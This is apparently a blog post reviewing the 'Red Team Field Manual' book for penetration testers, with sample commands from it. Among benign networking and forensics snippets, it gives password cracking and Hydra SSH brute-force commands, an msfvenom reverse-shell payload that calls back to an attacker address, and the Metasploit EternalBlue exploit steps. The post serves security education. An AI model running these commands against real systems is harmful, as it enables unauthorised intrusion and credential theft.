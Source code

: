 ```yaml
---
title: "📚🔍 Red Team Field Manual: Your Infosec Companion 🕵️‍♂️💼"
author: "c4r4nch0"
date: "2023-07-10"
draft: false
searchHidden: false
tags: ["book", "machete", "infosec"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://example.com/images/sparkling_souls.jpg"
#     alt: "Sparkling Souls"
#     caption: "Surround Yourself with Sparkling Souls"
#     relative: true # To use relative path for cover image, used in hugo Page-bundles    

---
```

![Choose the correct Book Pill: Red or Blue](/.morfeo_rbftm.jpg)

Hey there, fellow InfoSEC aficionados! Today, we're diving into the world of the "Red Team Field Manual," an indispensable gem in the realm of cybersecurity and penetration testing. If you're serious about mastering the art of red teaming or just want to level up your infosec skills, this little book packs a mighty punch.

**Why "Red Team Field Manual"?**

Picture this: You're in the midst of a complex penetration test, and you need a quick reference for that one obscure command or technique. You could scour the depths of the internet, but time is of the essence, and you need a reliable source at your fingertips. Enter the "Red Team Field Manual" (RTFM for short). This compact manual is designed for precisely those moments.

**The Magic of RTFM**

RTFM is a concise, no-nonsense guide that covers a wide array of topics relevant to red teaming, penetration testing, and general infosec wizardry. It's like having a seasoned mentor in your pocket, ready to assist you in your most critical moments.

[photo of the Red Team Field Manual book]

**Commands and Techniques You'll Love**

Here are some commands and techniques you'll find in RTFM that I absolutely love, ready to copy and use in your infosec adventures:

1. **Enumeration Magic**:
   
   Discovering valuable information about your target is crucial. RTFM provides a variety of enumeration commands to help you get started:

   - SNMP Enumeration:
     ```
     snmpwalk -c public -v1 target_ip
     ```

   - SMB Enumeration (using Enum4linux):
     ```
     enum4linux -a target_ip
     ```

2. **Password Cracking**:

   When you need to crack passwords, RTFM offers tools and techniques to get the job done:

   - Using John the Ripper for cracking password hashes:
     ```
     john --wordlist=wordlist.txt --format=NT hash.txt
     ```

   - Employing Hydra for brute-force attacks:
     ```
     hydra -l username -P password_list.txt ssh://target_ip
     ```

3. **Exploitation Essentials**:

   Master common exploits and payloads with these handy commands:

   - Metasploit (launching a reverse shell payload):
     ```
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f exe > payload.exe
     ```

   - Exploiting a known vulnerability (example with EternalBlue):
     ```
     msfconsole
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS target_ip
     exploit
     ```

4. **Cheat Sheets Galore**:

   RTFM is packed with cheat sheets for various technologies and protocols. Here's an example for quick reference:

   - PowerShell Cheat Sheet (for basic commands):
     ```
     Get-Process
     Get-Service
     Get-NetAdapter
     ```

5. **Networking Ninja**:

   For all your networking needs, RTFM's networking section has got you covered:

   - Configuring a network interface (example with ifconfig):
     ```
     ifconfig eth0 up
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0
     ```

   - Setting up an SSH tunnel:
     ```
     ssh -L local_port:target_ip:remote_port user@ssh_server
     ```

6. **Forensics and Incident Response**:

   When you're knee-deep in an incident response scenario, these commands come in handy:

   - Collecting volatile data using Volatility (example for memory analysis):
     ```
     volatility -f memory_dump.raw imageinfo
     volatility -f memory_dump.raw pslist
     ```

   - Checking for open ports and listening processes (example with netstat):
     ```
     netstat -tuln
     ```

Always use these commands responsibly in your infosec endeavors. 

Remember, with great power comes great responsibility! 🕵️‍♂️🔍🐍

**Real-World Examples**

RTFM isn't just a list of commands; it provides context and real-world examples. It shows you how to apply these commands in actual scenarios. It's like a seasoned colleague sharing their experiences with you.

**Conclusion**

So, should you get the "Red Team Field Manual"? Absolutely. It's a pocket-sized powerhouse of infosec knowledge that's incredibly handy for both beginners and seasoned professionals. While it won't replace in-depth understanding, it's an essential tool for quick reference and practical guidance.

[photo of me using RTFM in a real-world scenario]

Whether you're deep in a penetration test, studying for a certification, or just curious about infosec, this manual will become your trusty sidekick. It's like having a cheat code book for the world of hacking (ethically, of course!).

So, grab your copy of the "Red Team Field Manual," and let's embark on a journey filled with infosec adventures, one command at a time. 

Happy hacking, my friends! 🕵️‍♂️📘🔒